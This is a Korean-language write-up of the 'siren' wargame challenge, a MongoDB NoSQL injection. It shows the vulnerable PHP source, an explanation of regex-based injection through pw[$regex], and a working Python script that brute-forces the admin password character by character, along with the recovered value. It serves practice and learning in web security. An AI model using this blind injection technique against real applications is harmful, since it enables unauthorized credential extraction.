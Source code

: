 ```yaml
---
title : "LOS Lv.47 siren"
excerpt : "mongodb NOSQL Injection"
toc: true
toc_sticky: true
categories :
  - rubiya
tags :
  - NOSQLi
---
```


## siren
```php
query : {"id":null,"pw":null}

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['id']) echo "<h2>Hello User</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['pw'] === $_GET['pw']) solve("siren");
  highlight_file(__FILE__);
?>
```

## Solution
```
$regex를 이용해서 비밀번호 길이를 알아낼꺼임.

정규표현식 중에 .과 {}을 이용할 꺼임.
```
Tool : <a href="https://regex101.com/" target="_blank">regex online</a>  
```
test라는 문자를 입력해줬음.

.{1} -> . 한 개 반복 -> . -> t, e, s, t 

.{2} -> . 두 개 반복 -> .. -> te, st

.{4} -> . 네 개 반복 -> .... -> test

이런 식으로 비밀번호 길이를 구할 수 있음.
```
?id=admin&pw[$regex]=.{8} -> 비밀번호 길이는 8자리.
```
이제 비밀번호 값을 알아내야 함.
```
^을 이용해 단어 시작 글자를 알아낼꺼임.

?pw[$regex]=^1.{7}
```
```python
import requests
import string

url='https://los.rubiya.kr/chall/siren_9e402fc1bc38574071d8369c2c3819ba.php'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'PHPSESSID':'[redacted]'}

check="0123456789"+string.ascii_lowercase
pw=''

for i in range(7,0,-1) :
    for j in check :
        payload={'id' : 'admin', 'pw[$regex]':'^'+pw+str(j)+'.{'+str(i)+'}'}
        res=requests.get(url, headers=headers, params=payload, cookies=cookies)
        if "<h2>Hello User</h2>" in res.text:
            pw+=j
            print("pw : "+pw) 
            break

for j in check :
    payload={'id' : 'admin', 'pw[$regex]':'^'+pw+str(j)}
    res=requests.get(url, headers=headers, params=payload, cookies=cookies)
    if "<h2>Hello User</h2>" in res.text:
        pw+=j
        print("pw : "+pw)
        break
             
print("SIREN Clear!") # 1588f5a3

```